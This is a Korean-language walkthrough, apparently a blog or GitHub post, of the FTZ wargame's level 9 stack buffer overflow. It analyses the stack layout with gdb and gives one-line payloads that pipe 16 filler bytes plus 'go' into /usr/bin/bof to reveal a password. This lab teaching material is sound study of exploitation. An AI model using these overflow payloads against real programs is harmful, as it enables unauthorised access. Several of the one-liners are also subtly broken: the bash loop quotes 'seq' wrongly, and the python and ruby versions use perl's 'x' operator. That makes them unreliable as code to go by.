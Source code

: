 ## FTZ level9 풀이 

------------------------------------------

#### 01 문제 파악 

버퍼 오버플로우 입문! 

스택의 구조 ; 지역 변수가 스택에 배치되는 순서와 위치를 알자 

![1](https://user-images.githubusercontent.com/40850499/43044897-b6951be6-8de9-11e8-98a1-ecb3a1ed90cb.png)



#### 02 의도 분석 

키보드로 입력 받거나 데이터를 넣는 부분이 없음 (buf2 배열에 값을 입력하기 불가능한 상황)

→ 강제 입력 가능  

→ 특정 값을 원하는 메모리에 덮어쓸 수 있는가?  



#### 03 나의 풀이 

![3-1](https://user-images.githubusercontent.com/40850499/43044900-c0074dca-8de9-11e8-8246-7246e1b8c0a1.JPG)

buf와 buf2 배열 사이의 더미값이 얼마인지 몰라서 buf2에 go가 들어갈 때까지 위 과정을 반복했다. 

my-pass명령어를 입력하면 패스워드가 나온다. 



#### 04 다른 풀이

스택의 구성을 파악하기 위해 buf 배열과 buf2 배열 사이의 간격을 확인해야 한다. 

1. hint 파일을 베껴와서 tmp 폴더에 bof.c를 만들었다. 
2. (1) vi 편집기를 실행하여

![1](https://user-images.githubusercontent.com/40850499/43044906-d2740354-8de9-11e8-8cb0-c7b65814a673.JPG)

2. (2) 한글을 모두 제외한 후에 

![2](https://user-images.githubusercontent.com/40850499/43044907-d4608e58-8de9-11e8-846e-acd65f78fc32.JPG)



3. tmp 폴더에 컴파일 하고 gdb로 열었다. 

![3](https://user-images.githubusercontent.com/40850499/43044908-d7b77ddc-8de9-11e8-8358-883359cff677.JPG)



4. 다음에서 lea 오피코드가 있는 두 부분을 따로 떼어보면 

![4](https://user-images.githubusercontent.com/40850499/43044910-d9273da6-8de9-11e8-86b3-6c07156af2fa.JPG)

   1. > lea  eax, [ebp-40]
      >
      > lea  eax, [ebp-24]

      40  > 24로 바뀐다. 즉 buf배열에서 16바이트를 할당 받는다는 것을 알 수 있었다. 

       따라서 buf2에 넘어가도록 buf에 16개의 문자열를 넣은 후에 buf2에 넘어가는 초기 2바이트를 go로 넣어주면 된다.  

      다량의 문자열을 입력하는 방법은 아래 "05 새로 알게된 것 > 3) 스크립트를 이용한 문자열 입력 방법" 에 설명했다.




#### 05 새로 알게된 것

  1) <unistd.h> 헤더 : 유닉스 계열 시스템에서 시스템 콜을 하기 위해 사용하는 헤더파일

  2) 'id' 명령어 : uid, gid, groups의 권한을 알려준다

  3) 스크립트를 이용한 문자열 입력 방법

* 배시셸의 printf명령을 이용한 방법

  > [level9@ftz tmp]$ (for i in 'seq 1 16'; do printf "A"; done; printf "go"; cat) | /usr/bin/bof 

* 펄 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (perl -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 파이썬 스크립트를 이용한 방법

  > [level9@ftz tmp]$ (python -c 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 루비 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (ruby -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 



#### *참고자료 

* 여동기. 『문제 풀이로 배우는 시스템 해킹 테크닉』. 위키북스, 2015. 
* 우스이 토시노리 외 7인. 『CTF 정보보안 콘테스트 챌린지 북』. 위키북스, 2016. 
